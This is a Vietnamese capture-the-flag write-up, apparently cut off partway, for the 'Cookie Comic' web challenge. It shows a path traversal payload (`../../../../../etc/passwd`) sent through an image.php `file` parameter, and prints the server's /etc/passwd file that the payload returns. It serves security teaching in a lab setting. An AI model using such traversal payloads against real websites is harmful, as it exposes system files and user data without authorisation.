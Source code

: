 # Path Traversal

**Tên challenge:** Cookie Comic

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/cookie-comic)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** Flag Location: /flag.txt. Flag Format: CHH{XXX}

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website khá đơn giản, chỉ có 1 bức ảnh và các nút bấm điều chỉnh lướt ảnh:

![alt text](./images/image.png)

Khi ta thử click vào 1 trong các button bên dưới ảnh thì trên URL của Website xuất hiện thêm 1 parameter `comic`. Có thể parameter này sẽ xuất hiện lỗi nên ta thử chèn payload `Path Traversal` và các lỗi bảo mật khác để thử.

**B2:** Ta thử đổi giá trị của parameter `comic` thành `../../../../../etc/passwd` thì kết quả chẳng có gì.

![alt text](./images/image-1.png)

Ngoài ra, khi thử các payload về các lỗi bảo mật khác có dính dáng tới parameter thì cũng chẳng thu được gì.

Nhưng khi ta đọc Source code của Website thì ta lại phát hiện có thêm 1 đường dẫn mới
```
/image.php?file=20240709/346850200.jpg&credits=cookiehanhoan
```

**B3:** Truy cập thử vào đường dẫn mới phát hiện

![alt text](./images/image-2.png)

Đường dẫn này có tồn tại 2 parameter `file` và `credis`, ta tiếp tục thử các lỗi bảo mật khác lần lượt với 2 parameter trên.

**B4:** Tiếp tục thay giá trị của parameter `file` thành payload `Path Traversal` `../../../../../etc/passwd` thì Website tải xuống cho ta 1 tệp có tên là `image.php`

Ta thử mở file `image.php` vừa được tải xuống thì nội dung lại là của file `/etc/passwd` của hệ thống Website.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
www:x:1000:1000::/home/www:/bin/sh
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
```
=> Xem ra file `image.php` đảm nhận nhiệm vụ xử lý input của URL và tìm đến file mà URL yêu cầu. Nếu file đó nằm ngoài các file được lập trình từ trước thì `image.php` sẽ đọc nội dung file đó, và tải xuống cho người yêu cầu.